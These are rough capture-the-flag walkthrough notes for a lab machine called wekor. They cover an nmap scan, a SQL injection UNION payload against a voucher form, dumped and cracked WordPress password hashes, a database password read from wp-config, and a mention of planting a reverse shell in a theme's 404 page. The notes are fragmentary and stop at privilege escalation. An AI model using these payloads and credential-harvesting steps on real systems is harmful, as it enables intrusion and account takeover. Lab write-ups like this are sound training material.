 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx wekor.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV wekor.thm
```

we got these open ports
```bash

```

# HTTP (port 80)
robots.txt
```
User-agent: *
Disallow: /workshop/
Disallow: /root/
Disallow: /lol/
Disallow: /agent/
Disallow: /feed
Disallow: /crawler
Disallow: /boot
Disallow: /comingreallysoon
Disallow: /interesting
```


http://wekor.thm/it-next/
http://wekor.thm/it-next/it-cart.php

veulnerability in the add voucher form

' UNION SELECT database(),2,3;#
database() = coupons

table valid_coupons


Coupon Code : 1 With ID : admin And With Expire Date Of : $P$BoyfR2QzhNjRNmQZpva6TuuD0EE31B. Is Valid!
Coupon Code : 1 With ID : wp_jeffrey And With Expire Date Of : $P$BU8QpWD.kHZv3Vd1r52ibmO913hmj10 Is Valid!
Coupon Code : 1 With ID : wp_yura And With Expire Date Of : $P$B6jSC3m7WdMlLi1/NDb3OFhqv536SV/ Is Valid!
Coupon Code : 1 With ID : wp_eagle And With Expire Date Of : $P$BpyTRbmvfcKyTrbDzaK1zSPgM7J6QY/ Is Valid!




xxxxxx           (wp_eagle)
soccer13         (wp_yura)     
rockyou          (wp_jeffrey)

http://site.wekor.thm/wordpress


admin@wekor.thm


by connecting with wp_yura, we have more permissions and cat edit for example 404 page php file\
we can so add a reverse shell


so now we have a foothold, we can get the creds of the wordpress database : 
/** The name of the database for WordPress */
define( 'DB_NAME', 'wordpress' );

/** MySQL database username */
define( 'DB_USER', 'root' );

/** MySQL database password */
define( 'DB_PASSWORD', 'root123@#59' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

maybe we can try password for an account on the machine (reuse password)


user Orka

/usr/bin/python /root/server.py
/usr/bin/memcached -m 64 -p 11211 -u memcache -l 127.0.0.1
